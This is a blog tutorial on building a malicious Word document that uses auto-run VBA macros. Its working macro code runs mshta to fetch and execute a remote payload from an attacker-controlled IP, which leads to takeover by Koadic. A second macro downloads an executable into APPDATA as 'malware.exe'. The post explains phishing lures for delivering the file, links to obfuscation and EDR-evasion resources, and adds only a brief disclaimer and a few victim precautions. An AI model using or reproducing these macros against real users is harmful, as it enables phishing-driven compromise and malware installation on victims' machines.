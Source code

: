```yaml
---
title: "Create malicious office documents (Macro attack)"
date: "2020-04-19"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


Hello world.

This blog post is tend to show how macro attack works. 

In real scenario, attacker may phishing user by email user with some sort of business or organization matter etc., if user download and execute those malicious file, their machine then will be compromised.

Successful rate for this macro attack being detected by AntiVirus is depend on how the obfuscation of the macro and the Antivirus(AV) signature itself. It's look like the more obfuscation made by attacker, the lower the chance of their malware being detected by AV. One of the popular malware using this type of attack is Emotet malware. They use macro attack to drop their payload, and then execute the executable at the end of the process.

Picture below from CyberReason show how of Emotet malware works.

![enter image description here](https://lh6.googleusercontent.com/2NuozHdR7FXjw0eHCtSOa0kJyTgTGbC1Q64bhXNi1gOCRW7lHJfrb8SnAXaN6wjY9BKmsd0RwekmY1y-fCk21CVv2CBmMPBMQb9iGDghRfLCZ8GfrN0DSRm6GH0D8Fc7HH2-iKpH)

We gonna create a basic malicious document attack that will execute mshta payload (without any obfuscation made) whenever user open our malicious document.

This blog post is for education and research purpose only. If you do something bad, do with your own risk.

## Create document file in Microsoft Word

We will create a word file first and at the end of this tutorial save it as `.doc`. 

Maybe as an attacker, they will display a message to phishing user to click `enable editing` and `enable content` of the document like below picture.

![pic1](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic1.png)

## Create macro 

Click on 'view" tab

![//pic2](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic2.png)

Click Macros

![//pic3](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic3.PNG)

Type any name you want for Macro name and click "create" to create the macro

![//pic4](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic4.PNG)

On "Project" path, click ThisDocument

![//pic5](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic5.PNG)

### Execute command

Write our malicious macro code like below

```
Private Sub Document_Open()
Test
End Sub

Private Sub DocumentOpen()
Test
End Sub

Private Sub Auto_Open()
Test
End Sub

Private Sub AutoOpen()
Test
End Sub

Private Sub Auto_Exec()
Test
End Sub

Private Sub Test()
    Shell ("cmd /c mshta http://192.168.83.129:9999/TPXfI")
End Sub
```
![//pic6](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic6.PNG)

You can also use other payload command line like powershell etc. The mshta attack is just an example.

In my case here, this macro will execute mshta fileless payload.

### Download file
```
Private Sub Document_Open()
Test
End Sub

Private Sub DocumentOpen()
Test
End Sub

Private Sub Auto_Open()
Test
End Sub

Private Sub AutoOpen()
Test
End Sub

Private Sub Auto_Exec()
Test
End Sub

Private Sub Test()
'
Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe", False
xHttp.Send
With bStrm
    .Type = 1
    .Open
    .write xHttp.responseBody
    .savetofile Environ("APPDATA") & "\malware.exe", 2
End With
'
'
End Sub
```

## More option and resource
- https://gist.github.com/mgeeky/3c705560c5041ab20c62f41e917616e6
- https://github.com/mgeeky/VisualBasicObfuscator
- https://gist.github.com/mgeeky/9dee0ac86c65cdd9cb5a2f64cef51991
- https://blog.f-secure.com/dechaining-macros-and-evading-edr/


## Save as .doc

We gonna choose `.doc` or `.docm` file format to save this document because this type of document support to execute macro attack.

![//pic7](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic7.PNG)

Now, we can deliver this malicious document to target user.


# User execute and enable content
Once user open the document and enable content of our malicious document, the user will be compromised.

Take a look at below gif on how it works.

![//pic8.gif](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciousdoc/pic8.gif)

Koadic now has take control our target user.

# User (victim) precaution
- Verify sender address thoroughly
- Ensure Antivirus is legitimate and updated
- Take a precautionary measures like do not click "enable content" when opening `.doc` or `.docm` document format.
